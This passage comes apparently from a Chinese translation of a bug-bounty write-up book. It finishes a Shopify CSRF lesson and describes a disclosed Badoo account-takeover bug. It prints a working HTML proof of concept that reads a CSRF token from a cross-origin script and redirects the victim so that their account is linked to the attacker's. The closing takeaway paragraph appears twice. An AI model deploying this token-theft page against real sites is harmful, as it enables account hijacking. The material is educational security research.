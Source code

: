 >重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的資料，這應該是一些需要關注的事情。

---

## **3. Badoo 帳戶的完整控制**

```
難度：中

URL：https://badoo.com
報告鏈接：https://hackerone.com/reports/127703
報告日期：2016.4.1
獎金：$852
```

## **描述：**

如果你仔細檢查 Badoo ，你會發現，它們通過包含 URL 參數`rt`來防禦 CSRF，它只有 5 個位數（至少在我寫這篇的時候）。雖然我在 Badoo 入駐 HackerOne 的時候就注意到了，我並沒有找到利用它的方式，但是`zombiehelp54`找到了。
<p>

發現`rt`參數以及其值之後，它也注意到了，參數一戶在所有 JSON 響應中都返回。不幸的是，這並沒有什麼幫助，因為 CORS 保護了 Badoo，攻擊者無法讀取這些響應，所以它繼續挖掘。
<p>

最終，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，這個文件可以由攻擊者任意讀取，而不需要受害者做什麼，除了瀏覽這個惡意頁面。這裡是它提供的程式碼。

```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
    window.onload = function(){
    var csrf_code = getCSRFcode(url_stats);
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
    window.location = csrf_url;
};
</script>
```
本質上，當受害者加載此頁面時，它會呼叫Badoo 的腳本，為用戶獲取rt參數，之後代表受害者進行呼叫，這裡，它將受害者的帳戶鏈接到了攻擊者的，本上上完成了帳戶的控制。

>重要結論
>
>無風不起浪。這裡，攻擊者注意到了`rt`參數在不同位置返回，特別是 JSON 響應，
>因此，它正確猜測了，它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。重要結論
>
>無風不起浪。這裡，攻擊者注意到了rt參數在不同位置返回，特別是 JSON 響應，因此，它正確猜測了，
>它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。
